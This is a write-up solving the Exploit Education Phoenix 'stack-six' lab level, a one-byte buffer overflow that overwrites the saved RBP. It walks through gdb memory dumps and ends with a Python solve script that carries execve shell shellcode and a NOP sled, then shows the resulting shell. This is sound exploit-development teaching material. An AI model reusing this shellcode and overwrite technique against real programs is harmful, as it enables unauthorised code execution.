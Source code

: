```yaml
---
title: "Binary Exploitation | Exploit Education | Phoenix Stack Six"
permalink: "binary-exploitation/exploit-education-phoenix/:title"
layout: post
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *what = GREET;

char *greet(char *who) {
  char buffer[128];
  int maxSize;

  maxSize = strlen(who);
  if (maxSize > (sizeof(buffer) - /* ensure null termination */ 1)) {
    maxSize = sizeof(buffer) - 1;
  }

  strcpy(buffer, what);
  strncpy(buffer + strlen(buffer), who, maxSize);

  return strdup(buffer);
}

int main(int argc, char **argv) {
  char *ptr;
  printf("%s\n", BANNER);

#ifdef NEWARCH
  if (argv[1]) {
    what = argv[1];
  }
#endif

  ptr = getenv("ExploitEducation");
  if (NULL == ptr) {
    // This style of comparison prevents issues where you may accidentally
    // type if(ptr = NULL) {}..

    errx(1, "Please specify an environment variable called ExploitEducation");
  }

  printf("%s\n", greet(ptr));
  return 0;
}
```

This level exploits the 1‑byte buffer overflow, to learn more about it read the references at the end.

This code reads the environment variable **ExploitEducation** and passes it to **greet** function in the variable **who**.

Then it copies **GREET** message to the buffer which in this case is "Welcome, I am pleased to meet you ".

After that it check for input size (maximum size is 127).

Now comes the bug, it copies the input to buffer + 34 (GREET length) so if our input size is 127 which is the maximum we could overflow the buffer and write 34 bytes past it.

So in total we are allowed to write 34 + 127 = 161 bytes, is it enough to overwrite the return address and redirect code execution ???

Unfortunately the answer it no, we can only overwrite the lowest byte of the saved **RBP**.

> #### Quick tips:
>
> - You can add these lines to **".gdbinit"** file to adjust gdb addresses to be more realistic.
>
>
> ```
> unset env LINES
> unset env COLUMNS
> set env _ /opt/phoenix/amd64/stack-six
> ```
>
> 
>
> - Keep the length of your exploit fixed every time to avoid shifting memory addresses (and to avoid the headache).



```
$ export ExploitEducation=$(python -c "print 'A'*161")			# Fill ExploitEducation env variable with 127 A's

$ gdb -q /opt/phoenix/amd64/stack-six 
Reading symbols from /opt/phoenix/amd64/stack-six...(no debugging symbols found)...done.

gef➤  disassemble greet 
Dump of assembler code for function greet:
.....
   0x000000000040077a <+125>:	mov    rdi,rcx
   0x000000000040077d <+128>:	call   0x400550 <strncpy@plt>
   0x0000000000400782 <+133>:	lea    rax,[rbp-0xa0]			# address of who
   0x0000000000400789 <+140>:	mov    rdi,rax
   0x000000000040078c <+143>:	call   0x400560 <strdup@plt>
.....

gef➤  b *0x0000000000400782
Breakpoint 1 at 0x400782

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x0000000000400782 in greet ()

gef➤  info registers rbp
rbp            0x7fffffffe590      0x7fffffffe590

gef➤   x/22xg $rbp-0xa0
0x7fffffffe510:	0x2c656d6f636c6557	0x6c70206d61204920
0x7fffffffe520:	0x6f74206465736165	0x6f79207465656d20
0x7fffffffe530:	0x4141414141412075	0x4141414141414141
0x7fffffffe540:	0x4141414141414141	0x4141414141414141
0x7fffffffe550:	0x4141414141414141	0x4141414141414141
0x7fffffffe560:	0x4141414141414141	0x4141414141414141
0x7fffffffe570:	0x4141414141414141	0x4141414141414141
0x7fffffffe580:	0x4141414141414141	0x4141414141414141
0x7fffffffe590:	0x4141414141414141	0x4141414141414141
0x7fffffffe5a0:	0x4141414141414141	0x4141414141414141
0x7fffffffe5b0:	0x00007fffffffe541	0x00000000004007e9
```

As you can see we were able to only overwrite the first byte of the saved **RBP** (remember that this is the base pointer of the calling function"main").

We know that this modified **RBP** will be used to restore **RSP** at the end of **main** function and then jump to the return address, so the idea of the exploit is modifying **RBP** to point to a an address where **RBP+8** (which will be the return address of main) points somewhere in the environment variable **ExploitEducation**.

We can get the address of **ExploitEducation** using many ways like dumping the stack until we find it (environment variables are at the end of the stack).

Here I used the command **grep** which is an alias for **search-pattern**.

```
gef➤  grep ExploitEducation=
[+] Searching 'ExploitEducation=' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rwx
  0x7fffffffeeff - 0x7fffffffef36  →   "ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
```

As you can see our input address starts at **0x7fffffffeeff**, but we need the start of the input to the real start is **0x7fffffffeeff + len("ExploitEducation=") = 0x7fffffffef10**.

So the return address must point somewhere inside **0x7fffffffef10** and **0x7fffffffef10+126**.

As we can only change the last byte of **RBP**, it's value can be between **0x7fffffffe501** and **0x7fffffffe5ff**, so let's put a breakpoint at the end of main and see if there is a good address we can jump to in this range.

```
gef➤  disassemble main 
Dump of assembler code for function main:
   0x00000000004007e4 <+73>:	call   0x4006fd <greet>
   0x00000000004007e9 <+78>:	mov    rdi,rax
   0x00000000004007ec <+81>:	call   0x400530 <puts@plt>
   0x00000000004007f1 <+86>:	mov    eax,0x0
   0x00000000004007f6 <+91>:	leave

gef➤  b *0x00000000004007f6
Breakpoint 2 at 0x4007f6

gef➤  r
Starting program: /opt/phoenix/amd64/stack-six 
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Breakpoint 1, 0x00000000004007f6 in main ()

gef➤   x/32xg 0x7fffffffe500
0x7fffffffe500:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe510:	0x0000000000000001	0x00007ffff7db6d0f
0x7fffffffe520:	0x00007ffff7ffc948	0x00000000000000a6
0x7fffffffe530:	0x00007fffffffe58f	0x0000000000000001
0x7fffffffe540:	0x4141414141414141	0x00007ffff7ffb300
0x7fffffffe550:	0x0000000000000000	0x0000000000600c00
0x7fffffffe560:	0x000000000040079b	0x0000000000000000
0x7fffffffe570:	0x0000000000000000	0x00007ffff7db6b1e
0x7fffffffe580:	0x00007ffff7ffb300	0x0a00000000000000
0x7fffffffe590:	0x00007ffff7ffb300	0x00007ffff7db9934
0x7fffffffe5a0:	0x4141414141414141	0x00007fffffffe541
0x7fffffffe5b0:	0x00007fffffffe648	0x00000000004007f1
0x7fffffffe5c0:	0x00007fffffffe638	0x00000001ffffe648
0x7fffffffe5d0:	0x000000000040079b	0x00007fffffffef10
0x7fffffffe5e0:	0x0000000000000001	0x00007ffff7d8fd62
0x7fffffffe5f0:	0x0000000000000000	0x00007fffffffe630
```

And viola!!!, we get **0x00007fffffffef10** at address **0x7fffffffe5d8** so we overwrite **RBP** to be **0x7fffffffe5d0** and that's it, the **leave** instruction will move RBP to RSP and pop the top value of the stack to RBP (which is at 0x7fffffffe5d0) then the **ret** will pop the next value to RIP (which is at 0x7fffffffe5d8).

So the whole idea was to overwrite **RBP** to point to an address where **RBP+8** is the address of our shellcode, so that at the end of the calling function the value of **RIP** will point to that address.

# Solution:

```python
# solve.py

from pwn import *

shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

buff = ""
buff += '\x90' * 20		# some NOP sled is always good :)
buff += shellcode
buff += 'A' * (126 - len(buff))
buff += '\xd0'

print(buff)
```

```
$ export ExploitEducation=$(python solve.py)
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ whoami
phoenix-amd64-stack-six
```

Note: the 32bit version might have a slightly different solution, but the idea is still the same.

#### References:

[https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows](https://www.welivesecurity.com/2016/05/10/exploiting-1-byte-buffer-overflows)